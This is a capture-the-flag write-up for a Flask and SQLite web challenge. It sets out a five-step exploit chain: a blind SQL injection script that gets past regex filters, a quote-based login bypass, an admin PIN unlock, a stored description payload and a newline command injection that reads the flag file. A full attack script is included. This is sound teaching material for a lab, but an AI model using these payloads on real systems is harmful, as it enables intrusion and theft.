



# SnippetVault — Writeup

**Category:** Web
**Flag:** `Pioneers25{5t3p_by_5t3p_ch41n_m4st3r}`

---

## Challenge Overview

**SnippetVault** is a snippet-sharing platform built with Flask and SQLite. It features user registration, snippet uploads with descriptions, and an admin panel with security scanning capabilities. The challenge requires chaining **five distinct vulnerabilities** to achieve remote code execution and capture the flag.

**Exploitation Chain:**
1. **Blind Boolean SQL Injection** → Extract admin PIN
2. **WAF-Bypass SQL Injection** → Login as admin
3. **Admin PIN Unlock** → Access admin panel
4. **Stored Payload Upload** → Bypass sanitizer
5. **Command Injection** → Read flag



---

## Deployment

### Docker (Recommended)

```bash
docker build -t snippetvault .
docker run -p 5000:5000 snippetvault
```

### Manual Setup

```bash
pip install -r requirements.txt
python app.py
```

**Demo credentials:** `guest / password123`

---

## Exploitation Walkthrough


### Stage 1: Blind Boolean SQL Injection — Extract Admin PIN

#### Vulnerability Location

The `/explore` route's search functionality:


```python
clean = waf_check(search)
rows = db.execute(
    "SELECT * FROM snippets WHERE is_private = 0 AND title LIKE '%" + clean + "%'"
).fetchall()
```

The search parameter is **concatenated** directly into the SQL query after WAF filtering.

#### WAF Analysis

The WAF blocks:
- `\bUNION\s+` — UNION SELECT
- `\bOR\s` — OR with whitespace
- `\bAND\s+\d` — AND followed by whitespace and digit
- `--` — SQL comments
- `/\*` — Block comments

#### The Bypass

The rule `\bAND\s+\d` requires `AND` + whitespace + digit. But `AND(SELECT` has `AND(` where `(` is **not a digit** → bypasses WAF!

#### Exploitation Payload

```sql
' AND (SELECT CASE WHEN (substr((SELECT val FROM settings WHERE key='admin_pin'),1,1)='a') THEN 1 ELSE 0 END)=1 AND '1%'='1
```

**How it works:**
1. Extracts character at position P from `admin_pin` in settings table
2. Returns 1 if match, 0 otherwise
3. Must use `=1` (integer), NOT `='1'` (string) due to SQLite type strictness
4. If true → seeded snippets appear
5. If false → "No public snippets found"

#### Automated Extraction

```python
import requests

BASE = "http://localhost:5000"

def extract_pin():
    pin = ""
    for pos in range(1, 7):  # 6-character hex PIN
        for char in "0123456789abcdef":
            payload = f"' AND (SELECT CASE WHEN (substr((SELECT val FROM settings WHERE key='admin_pin'),{pos},1)='{char}') THEN 1 ELSE 0 END)=1 AND '1%'='1"
            r = requests.get(f"{BASE}/explore", params={"q": payload})
            if "Hello World Snippet" in r.text:
                pin += char
                print(f"[+] PIN: {pin}")
                break
    return pin

admin_pin = extract_pin()  # Output: a3f72b
```

---

### Stage 2: WAF-Bypass SQL Injection — Login as Admin

#### Vulnerability Location

```python
username = waf_check(raw_user)
query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{pw_hash}'"
```

#### The Bypass

WAF rule `\bOR\s` requires `OR` + whitespace. But `admin'OR'1'='1` has `OR'` (no whitespace) → bypasses!

**Payload:**
```
Username: admin'OR'1'='1
Password: (anything)
```

**Resulting SQL:**
```sql
WHERE username = 'admin'OR'1'='1' AND password = '...'
```

Precedence: `(username='admin') OR ('1'='1' AND ...)` → TRUE for admin row ✅

---

### Stage 3: Admin Panel PIN Unlock

Use the PIN extracted in Stage 1 to unlock the admin dashboard:

```python
session.post(f"{BASE}/admin/unlock", data={"pin": "a3f72b"})
```

---

### Stage 4: Upload Malicious Snippet Description


#### Input Sanitizer Analysis

The `sanitize_input` function removes:
```python
dangerous = r"[;&|`$(){}\[\]!<>\\\']"
```

**Crucially missing:**
- `"` (double quote)
- `\n` (newline)

#### The Attack

The command injection sink uses **double quotes**:
```python
cmd = f'file {path} && echo "scan: {name} - {desc}" >> /tmp/sv_scan.log'
```

**Payload description:**
```
x"
cat /flag.txt
"
```

Upload a snippet with this description field.

---

### Stage 5: Command Injection via Admin Scan

When admin scans the uploaded snippet, the command becomes:

```bash
file /tmp/sv_uploads/abc123.bin && echo "scan: notes.txt - x"
cat /flag.txt
"" >> /tmp/sv_scan.log
```

**Execution:**
1. First line runs normally (truncated echo)
2. `cat /flag.txt` executes and outputs flag
3. `""` is harmless empty string

The flag appears in the scan result! 🎉

---

## Complete Exploitation Script

```python
import requests
import re

BASE = "http://localhost:5000"

# Stage 1: Extract PIN
def extract_pin():
    pin = ""
    for pos in range(1, 7):
        for char in "0123456789abcdef":
            payload = f"' AND (SELECT CASE WHEN (substr((SELECT val FROM settings WHERE key='admin_pin'),{pos},1)='{char}') THEN 1 ELSE 0 END)=1 AND '1%'='1"
            r = requests.get(f"{BASE}/explore", params={"q": payload})
            if "Hello World Snippet" in r.text:
                pin += char
                break
    return pin

# Stage 2: Login as admin
session = requests.Session()
session.post(f"{BASE}/login", data={
    "username": "admin'OR'1'='1",
    "password": "irrelevant"
})

# Stage 3: Unlock admin
pin = extract_pin()
session.post(f"{BASE}/admin/unlock", data={"pin": pin})

# Stage 4: Upload payload
session.post(f"{BASE}/upload",
    data={
        "title": "Exploit",
        "desc": 'x"\ncat /flag.txt\n"',
        "category": "other",
        "is_private": "0"
    },
    files={"file": ("exploit.bin", b"dummy", "application/octet-stream")}
)

# Stage 5: Trigger scan
r = session.post(f"{BASE}/admin/scan")
flag = re.search(r"Pioneers25\{[^}]+\}", r.text).group(0)
print(f"[✓] FLAG: {flag}")
```

---

## Key Takeaways

| Stage | Vulnerability | Key Insight |
|-------|--------------|-------------|
| 1 | Blind Boolean SQLi | `\bAND\s+\d` doesn't match `AND(` — `(` is not a digit; must use `=1` not `='1'` (SQLite type strictness) |
| 2 | Auth-bypass SQLi | `\bOR\s` doesn't match `OR'` — quote is not whitespace |
| 3 | Admin PIN unlock | PIN value extracted from `settings` table in stage 1 |
| 4 | Stored payload | Sanitizer blocks `'` but NOT `"` or `\n` |
| 5 | Command injection | Shell uses **double quotes** — `"` breaks out, `\n` separates commands |

---

## Red Herrings

| Feature | Looks Like | Reality |
|---------|------------|---------|
| `/snippet/<id>/embed` | SSTI via `render_template_string` | Content is a Jinja2 variable, not interpolated |
| `/snippet/<id>/embed?callback=` | JSONP injection | Callback validated with strict regex |
| Profile bio field | SSTI | Jinja2 autoescaping enabled |
| Upload filename | Command injection | Can't inject `\n` via HTTP headers |
